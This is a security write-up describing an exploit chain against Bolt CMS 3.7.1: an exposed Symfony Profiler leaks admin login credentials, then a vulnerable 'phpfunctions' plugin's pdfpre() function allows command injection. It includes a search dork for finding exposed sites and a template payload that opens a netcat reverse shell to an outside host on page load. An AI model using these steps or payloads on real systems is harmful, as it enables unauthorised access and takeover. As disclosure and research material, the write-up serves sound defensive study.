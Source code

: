 ```yaml
---
permalink: /b2
---
```

{% raw %}
# B2: Bolt CMS <= 3.7.1, Profiler + Extensions = RCE

[Bolt](https://bolt.cm/) is an open source Content Management Tool (CMS), which strives to be as simple and straightforward as possible. It is quick to set up, and it's because it's so simple to configure that some people configure it badly.

The reviewed version is v3.7.1 but lower versions are potentially vulnerable as well.

This is not a vulnerability in the core application source code but more a chain of a bad configuration set up by the administrators and the use of a vulnearable plugin that allows an unauthenticated user to obtain a RCE on the underlying system. Moreover the first part of this chain may be reused on most of the [Symfony](https://symfony.com/) based CMS which use the [Profiler](https://symfony.com/doc/current/profiler.html).

As explained in the Symfony documentation:
> The Profiler is a powerful development tool that gives detailed information about the execution of any request. Never enable the Profiler in production environments as it will lead to major security vulnerabilities in your project.

## The Profiler

Bolt CMS is based on Symfony and enables by default the Profiler for all authenticated users. Since the Profiler is only enabled for authenticated users, we may only need to create an account to access it, but for reasons I don't know, it turns out that many Bolt deployments provide the Profiler to unauthenticated users as it can be oservated using the following dork:

```
"bolt" inurl:wdt
```

![alt text](../captures/b2_0.png "Figure 1: Dork")

Let's take a local instance of Bolt configured as the sites provided by [Google](https://www.google.com/search?ei=4FdOX9qpDpKQlwT5wYP4Ag&q=%22bolt%22+inurl%3Awdt&oq=%22bolt%22+inurl%3Awdt&gs_lcp=CgZwc3ktYWIQA0oFCAkSATFKBQgKEgEzUJceWIUfYLMgaABwAHgAgAE8iAGFAZIBATOYAQCgAQGqAQdnd3Mtd2l6wAEB&sclient=psy-ab&ved=0ahUKEwjamYXjksjrAhUSyIUKHfngAC8Q4dUDCAw&uact=5).

![alt text](../captures/b2_1.png "Figure 2: Profiler")

We will use the Profiler to list the last 10 000 POST requests. And in the set of queries displayed we have to choose a query to the route <span style="color:red">/bolt/login</span> with the status code 302.

![alt text](../captures/b2_2.png "Figure 3: Viewing last 10 000 POST request")

The Profiler allowing to analyze the request provides us with the parameters present in the body of the POST request.

![alt text](../captures/b2_3.png "Figure 4: Analyzing the request 86b334 - part 1")

![alt text](../captures/b2_4.png "Figure 5: Analyzing the request 86b334 - part 2")

Which allows us to authenticate ourselves as an admin within the application.

![alt text](../captures/b2_5.png "Figure 6: Authentication")

## Extensions

Since the version 3.6.7 which fixes the vulnerability [CVE-2019-10874](https://fgsec.net/2020/04/20/From-CSRF-to-RCE.html), it is no longer possible to upload PHP files in order to obtain a remote code execution. However we are admin and it is therefore possible for us to install plugins.

The problem is that it is not possible for us to install customs ones, because it is only possible to install them from https://market.bolt.cm/. That's why the following steps will highlight how to get our RCE.

### Step 1: Edit the configuration file

In order to be able to install any plugin from the market it is necessary to modify the configuration file <span style="color:red">\<ROOT\>/app/config/config.yml</span>.

From

File: <span style="color:red">\<ROOT\>/app/config/config.yml</span>
```
# Do not change this, unless you know what you're doing, and understand the
# associated risks. If you use 'http://market.bolt.cm', Bolt will not use
# SSL, increasing the risk for a MITM attacks.
# extensions:
#     site: 'https://market.bolt.cm/'
#     enabled: true
#     composer:
#         minimum-stability: stable      # Either 'stable', 'beta', or 'dev'. Setting 'dev' will allow you to install dev-master versions of extensions.
```

To

File: <span style="color:red">\<ROOT\>/app/config/config.yml</span>
```
# Do not change this, unless you know what you're doing, and understand the
# associated risks. If you use 'http://market.bolt.cm', Bolt will not use
# SSL, increasing the risk for a MITM attacks.
extensions:
    site: 'https://market.bolt.cm/'
    enabled: true
    composer:
        minimum-stability: dev      # Either 'stable', 'beta', or 'dev'. Setting 'dev' will allow you to install dev-master versions of extensions.
```

![alt text](../captures/b2_6.png "Figure 7: Editing configuration file - part 1")

![alt text](../captures/b2_7.png "Figure 8: Editing configuration file - part 2")

### Step 2: Find a vulnerable plugin

Now that it is possible for us to install plugins, it will be up to us to find a vulnerable one. To do this, there is no secret we have to audit some code
until we find what we are looking for.

It is with the [phpfunctions](https://market.bolt.cm/view/levin/phpfunctions) plugin developed by Oleg Levin that we will be able to obtain an RCE.

![alt text](../captures/b2_8.png "Figure 9: Install phpfunctions plugin")

The purpose of the plugin is to add 7 functions and 2 filters to Twig.

Functions:
- array_rand(array, numitems)
- str_replace(search, replace, subject)
- filesize(file)
- videoinfo(videolink)
- pdfpre(pdffilename, width, height)
- calendar(month, year, day)
- server(param)

Filters:
- suffle
- url_decode

And it is one of these functions that will be our vector of exploitation.

The plugin follows the following tree structure and it is within the file <span style="color:red">phpfunctionsExtension.php</span> that the code of the plugin can be found.
```
▶ tree extensions/vendor/levin/             
extensions/vendor/levin/
└── phpfunctions
    ├── composer.json
    ├── init.php
    ├── phpunit.xml.dist
    ├── README.md
    ├── src
    │   ├── phpfunctionsExtension.php
    │   └── VideoThumb.php
    └── tests
        ├── bootstrap.php
        └── phpfunctionsTest.php

3 directories, 8 files
```

As it is possible to see below, the function `pdfpre()` take a parameter `$file` which is passed as a parameter of the `exec()` function allowing us to execute commands on the underlying system and thus obtain the RCE.

File: <span style="color:red">\<ROOT\>/extensions/vendor/levin/phpfunctions/src/phpfunctionsExtension.php</span>
```php

    ...

    public function pdfpre($file = "", $width = 100, $height = 0) {
	$app = $this->getContainer();
	$thumb_path = $app['resources']->getPath('webpath') . '/thumbs/pdfpre/';
	if (!is_dir($thumb_path)) {
	    mkdir($thumb_path, 0777);
	}

	$path_parts = pathinfo($app['resources']->getPath('filespath') . $file);
	$filename = $path_parts['filename'];
	$filepath = $path_parts['dirname'];

	if (!file_exists($thumb_path . $filename . '.jpg')) {
	    exec('convert "' . $app['resources']->getPath('filespath') . '/' . $file . '[0]" -colorspace RGB -density 300 -quality 95 -background white -alpha remove -geometry ' . $width . ' -border 2x2 -bordercolor "#efefef" ' . $thumb_path . $filename . '.jpg');
	}

	$html = <<< EOM
        <img src="%src%" alt="%alt%"> 
EOM;
	$html = str_replace("%src%", '/thumbs/pdfpre/' . $filename . '.jpg', $html);
	$html = str_replace("%alt%", $filename, $html);
	return new \Twig_Markup($html, 'UTF-8');
    }

    ...

```

In order to exploit the vulnerability it is necessary to add `{{ pdfpre('"; nc -e /bin/bash 172.18.0.1 1337 #', 100, 100) }}` in one of the theme's template files.

For exemple: <span style="color:red">index.twig</span>.

File: <span style="color:red">\<ROOT\>/public/theme/base-2018/index.twig</span>

```twig
{% extends 'partials/_master.twig' %}

{% block main %}

{{ pdfpre('"; nc -e /bin/bash 172.18.0.1 1337 #', 100, 100) }}

<section class="section">

...

```

![alt text](../captures/b2_9.png "Figure 10: Insert the payload in a template")

The exploit will be triggered as soon as a user loads a page.

![alt text](../captures/b2_10.png "Figure 11: Exploit triggered")
{% endraw %}



